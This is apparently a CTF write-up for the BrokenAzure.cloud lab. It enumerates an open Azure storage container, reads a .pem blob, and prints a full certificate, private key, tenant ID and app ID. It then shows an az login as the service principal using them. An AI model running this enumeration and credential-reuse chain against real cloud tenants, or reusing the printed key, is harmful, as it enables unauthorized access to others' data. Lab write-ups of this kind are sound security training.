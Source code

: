 # BrokenAzure.cloud CTF Challenge Write-Up

This repository contains a detailed write-up for a challenge found on [BrokenAzure.cloud](https://www.brokenazure.cloud/), focusing on the exploitation of Developer Tools and the Security Pane to enumerate and extract sensitive information from Azure storage containers.

## Challenge Overview

The company named SuperCompany B.V. has been working with IT systems for a while now and have an IT team of a whoppin' 2 people. Because the CEO of the company has heard that 'Cloud' is the new way of working, the CEO has asked the IT team to migrate all IT systems to the Azure cloud platform. Sadly, management does not allow the IT team to take courses or trainings to learn more about Azure cloud and so they have to learn as-they-go
<br>
## Scripts
These scripts are found in my github folder, Tools
```bash
https://github.com/Snoozekinezzar/Tools.git
```
<br>

# Challenge 1
<br>

## Tools Utilized

**enumerate_containers.py** : A script designed for enumerating accessible storage containers within a given Azure Storage account.
**list_blobs_info.py** : A script aimed at listing details about blobs within a specific container, including file names, sizes, and modification timestamps.

## Developer tools

By refreshing the page, it is shown in the security pane, that the Azure account name is **supercompanystorage**
```bash
https://supercompanystorage.blob.core.windows.net
```

## Procedure and Discoveries

### Enumerating Storage Containers

The first step involved using the `enumerate_containers.py` script to enumerate storage containers within the `supercompanystorage` account, as showcased below:

```bash
┌──(brokenazure㉿ctf)-[~/Github/Tools]
└─$ ./enumerate_containers.py
Enter the Azure Storage account name: supercompanystorage
Container found: storagecontainer
Found Containers: ['storagecontainer']
```
### Output:
Upon identifying the container name (storagecontainer), the `list_blobs_info.py` script was executed to enumerate blobs within this container. This process revealed the names, sizes, and last modified dates of the blobs:

```bash
┌──(brokenazure㉿ctf)-[~/Github/Tools]
└─$ ./list_blobs_info.py supercompanystorage storagecontainer

List of blobs:
- Name: Employee23187.ovpn, Size: 2921 bytes, Last Modified: Mon, 08 Aug 2022 11:09:12 GMT
- Name: SECURA{C3RT1F1C3T3}.pem, Size: 3002 bytes, Last Modified: Mon, 08 Aug 2022 11:08:05 GMT
- Name: logo.png, Size: 10763 bytes, Last Modified: Mon, 08 Aug 2022 11:08:05 GMT
```

## Uncovered Flags
This investigative effort led to the identification of several files, one of which contained a flag:

**1st Flag: SECURA{C3RT1F1C3T3}**
<br>
<br>
This flag was located within the file named SECURA{C3RT1F1C3T3}.pem, marking a successful extraction of sensitive data.

<br>

# Challenge 2
<br>

## Tools Utilized

**blob_activator.py**: A script for reading individual blobs within a given Azure Storage account.

## Accessing blobs
The next step involved using the `blob_activator.py` script to access the information inside the blobs I've previously listed using my `list_blobs_info.py`, as showcased below:

```bash
┌──(brokenazure㉿ctf)-[~/Github/Tools]
└─$ ./blob_activator.py
Enter the storage account name: supercompanystorage
Enter the container name: storagecontainer
Enter the blob name: SECURA{C3RT1F1C3T3}.pem
```

### Output:
Using the `blob_activator.py`, I was able to access the Privacy Enhanced Mail file (.pem), *SECURA{C3RT1F1C3T3}.pem*, which contained **certificate**, **private key**, **tenant id** and **application id**.

```bash
-----BEGIN CERTIFICATE-----
MIIDHzCCAgegAwIBAgIUaEcJmhc/7DjCPPyZLV0fWO1gcz8wDQYJKoZIhvcNAQEL
BQAwHzELMAkGA1UEBhMCTkwxEDAOBgNVBAoMB1NlY3VyYSAwHhcNMjIwMzIyMTQz
NjU3WhcNMzIwMzE5MTQzNjU3WjAfMQswCQYDVQQGEwJOTDEQMA4GA1UECgwHU2Vj
dXJhIDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMzepUaYNoTsuWSk
Zb9pgbIJrMEAp9oJuIGNlMgOxMcTHVix6Scb9Q3odWwBE39BhImc+cy8y3OpeuRq
ADo98RIlBv8HkVYdOubR84NZvD/ugZfWJMrNCYFzOrRLeY53OGGgIxVJessyem5l
q/16WzH0I3oRY65vOiEdNYZs0ZGOObtIffxmasz/+UwHWVeyxo8K5SBYAgGxhRPy
tPhQW3s2whpkgXCLIScwrkrHsJvWGtKHqwpgF6vKXdmqGmJcZljLVNeD673SXU0a
uCchxAG4nbQLKOccKvH1A677dSWXOtJ/8S6nJ5S/mdFy9uSSr1Fw85wAtXfb9MmB
UWdFjakCAwEAAaNTMFEwHQYDVR0OBBYEFA/amktAYKEtTAKc7DqKV9K7Cs2EMB8G
A1UdIwQYMBaAFA/amktAYKEtTAKc7DqKV9K7Cs2EMA8GA1UdEwEB/wQFMAMBAf8w
DQYJKoZIhvcNAQELBQADggEBAK5JzdK7q7eYegr93EA+mzm53+qCqdQtdzFOAEzA
dGpQcV9LWKHxbiVMl8/QrGhlD5LNsLmNsrtWKbGAcHMPDPdwWCjsF7YALlou9Js9
lCRwyHaUTIss6YtnRVrcQSsclVzCG5yJoX8PHskGtvzg8Bs1xsPM5H9qXvjUCQqU
9wYNe6QaCbpznNbewoqijLWkwDiHbmuxwBoTp8fFxjtFnBXYsf4oTPKFeBqIKq07
SP9OM5Qp0jQLt54H1NcTNe+6Vw2/11ZH6NOiLgHBIK+50sCiYeh8d35t+PLrH64k
6CXu0gLU3UZeTR65rVpScRGLnS+fLCWgc0MzyuolbBLVYfw=
-----END CERTIFICATE-----
-----BEGIN PRIVATE KEY-----
MIIEvwIBADANBgkqhkiG9w0BAQEFAASCBKkwggSlAgEAAoIBAQDM3qVGmDaE7Llk
pGW/aYGyCazBAKfaCbiBjZTIDsTHEx1YseknG/UN6HVsARN/QYSJnPnMvMtzqXrk
agA6PfESJQb/B5FWHTrm0fODWbw/7oGX1iTKzQmBczq0S3mOdzhhoCMVSXrLMnpu
Zav9elsx9CN6EWOubzohHTWGbNGRjjm7SH38ZmrM//lMB1lXssaPCuUgWAIBsYUT
8rT4UFt7NsIaZIFwiyEnMK5Kx7Cb1hrSh6sKYBeryl3ZqhpiXGZYy1TXg+u90l1N
GrgnIcQBuJ20CyjnHCrx9QOu+3UllzrSf/EupyeUv5nRcvbkkq9RcPOcALV32/TJ
gVFnRY2pAgMBAAECggEBALBvetVOV32oxY1YS8xKWAj1bhMVtnj/8CeawCx/E5cC
7j4pkks9N5GPxjiKwLjSuwss5rEdUvY8WnsGk0WVfN0MiHbwlIkeSVDqNZbEnGxO
wsr6ANurM2mJzF/jtD8ui58AI9a8XoVK5sfWxgVZ79oYkMka2scqQVytZCBt7Ro1
YSrjxI0sMmVpC29tjzkraJrc9xlqzr/ioKR94d5PBbbicRzwuN5f2CcXFZSbAULM
CDHG6raajvlL1aSNQG8Lkouudw1E+1mMM//KPpAjQvkFajt+ugCqmV3fyO8td1W7
ndsDMz6TcRc5syQlsFtZ28R1ugR5AOt/Q2NOG51zZtECgYEA5T8E+85keSjTmkQ4
SUYuFEWFTUBoYsZ644fonntKJz+uMUilf4PP5tYm85Idereq/Wz2MR7YFo+Dhe/C
lUGfMOqp6jGbRO9gwrAYifc9psR86dlPsvwbg1+MkrreqjM+dQYE3BzVBPeIHIaz
OR0S7oJRZiQKzxX6dSPN6yHMQYUCgYEA5MdaSOvS2yssFOWPSajZdM3uJDwvB8yI
A0zTzq/t0xGp4pG4hbbA0DsrlwbW+DFjNmhTUjnGi2xNFuBs2zpZAfZcS70JRi4G
3NSGRbUg2x7xJd+eDtHLfcqVAWS21Qv6cNnjWkIi+zD1mh8kuNpz6hd3MH6lZfuz
FdFIPBGQAtUCgYEAjnnDRCh7A14fXQJHJSsr2kd22JNODQ2kNKM0LMMdTBVk0pZ+
3Shz3th77ueB0NIzwDunKtIrpKHfMS/Y9GCLaqB9p+LayFYqAfXl2mFB/NKje8cm
pGvRQa3xtQPU/VzJ1Xs/K/nzXpnlCy2gV7+9E2UE6AFAgoH7XjA5e4hO5O0CgYEA
qrrK+dhjhwP05bNa91F21uBHc+sl/d/5MN1Iw9ou1XE9IsQ0vDTiN4OwyAhmrNnO
fG/mnlpXfPzZmtTo58HnYruDrVHpdeIrZOmFOsgtONkihW0X+189SSbBhESw3NUP
lOBF9rmceXDUGKxdL0Z3cp8IZ7xbmnv37bQ8//brTfECgYB38BuP+2JifsqhCO4V
QwqzeI6QhETFZNpwBMLua/J6B/beDYNQNylWNmUhMZ5UrL+ZE+q83nHb6OuQvwwm
2JfOQqPWC33oDLgfSCJM4kZIt2K3AIozYmoSbRaS1g5WEL/2Z39/Kg+qjz1cX1UG
h3A+1OWJej8nKg9XTz25Ra1qzg==
-----END PRIVATE KEY-----
-----BEGIN AZURE_DETAILS-----
Tenant id: 4452edfd-a89d-43aa-8b46-a314c219cc50
App-id: b2bfb506-aead-40d8-9e93-6f3e5d752826
-----END AZURE_DETAILS-----
```

## Writing to .pem file and az login
Now that I have the *certificate*, *private key*, *tenant id and *app-id*, I can use az login to access the service principal, but without the subscription (It should be noted that tenant id and app id is usually not in .pem files)

```bash
az login --service-principal -u b2bfb506-aead-40d8-9e93-6f3e5d752826 --tenant 4452edfd-a89d-43aa-8b46-a314c219cc50 --password brokenazure.pem --allow-no-subscriptions
```

### Output:
```bash
┌──┌──(brokenazure㉿ctf)
└─$ az login --service-principal -u b2bfb506-aead-40d8-9e93-6f3e5d752826 --tenant 4452edfd-a89d-43aa-8b46-a314c219cc50 --password brokenazure.pem --allow-no-subscriptions
[
  {
    "cloudName": "AzureCloud",
    "id": "4452edfd-a89d-43aa-8b46-a314c219cc50",
    "isDefault": true,
    "name": "N/A(tenant level account)",
    "state": "Enabled",
    "tenantId": "4452edfd-a89d-43aa-8b46-a314c219cc50",
    "user": {
      "name": "b2bfb506-aead-40d8-9e93-6f3e5d752826",
      "type": "servicePrincipal"
    }
  }
]
```

## Conclusion
The challenge underscored the critical need for securing Azure storage accounts and containers against unauthorized access. The successful enumeration and extraction of data from inadequately secured containers highlighted potential vulnerabilities, reinforcing the importance of ethical hacking practices and proper authorization prior to conducting vulnerability assessments.
